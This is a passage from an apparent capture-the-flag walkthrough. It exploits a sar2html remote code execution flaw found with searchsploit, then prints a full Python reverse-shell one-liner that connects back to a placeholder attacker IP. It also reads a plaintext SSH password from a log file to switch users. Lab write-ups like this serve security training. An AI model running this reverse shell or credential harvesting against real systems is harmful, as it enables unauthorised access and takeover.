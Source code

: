 (Results with status 403 removed.) Among the results, `_.*` items stand out. First to be checked out is `_test`. The page says "sar2html" right up front so we look up exploits for that with `searchsploit` and get a couple of results.

```sh
$ searchsploit sar2html
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution                                        | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution                                            | php/webapps/47204.txt
------------------------------------------------------------------------------------- ---------------------------------
```

Looking at the pre-made exploit `php/webapps/49344.py`, we have a simple RCE. We can simply open a listener, run the exploit and provide a suitable reverse shell to get a shell. After trying several shells, I found `python` to work.

```sh
export RHOST="YOUR_IP";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

With that, we should have a shell as "www-data".

Right in the landing directory, we have `log.txt`.

```sh
www-data@Vulnerable:/var/www/html/joomla/_test$ cat log.txt
Aug 20 11:16:26 parrot sshd[2443]: Server listening on 0.0.0.0 port 22.
Aug 20 11:16:26 parrot sshd[2443]: Server listening on :: port 22.
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
Aug 20 11:16:35 parrot sshd[2451]: pam_unix(sshd:session): session opened for user pentest by (uid=0)
Aug 20 11:16:36 parrot sshd[2466]: Received disconnect from 10.10.170.50 port 49824:11: disconnected by user
Aug 20 11:16:36 parrot sshd[2466]: Disconnected from user pentest 10.10.170.50 port 49824
Aug 20 11:16:36 parrot sshd[2451]: pam_unix(sshd:session): session closed for user pentest
Aug 20 12:24:38 parrot sshd[2443]: Received signal 15; terminating.
```

Within the log are credentials for "basterd" which we can use to `su basterd`.

Checking basterd's privileges ...

```sh
basterd@Vulnerable:/var/www/html/joomla/_test$ sudo -l
[sudo] password for basterd:
Sorry, user basterd may not run sudo on Vulnerable.
```
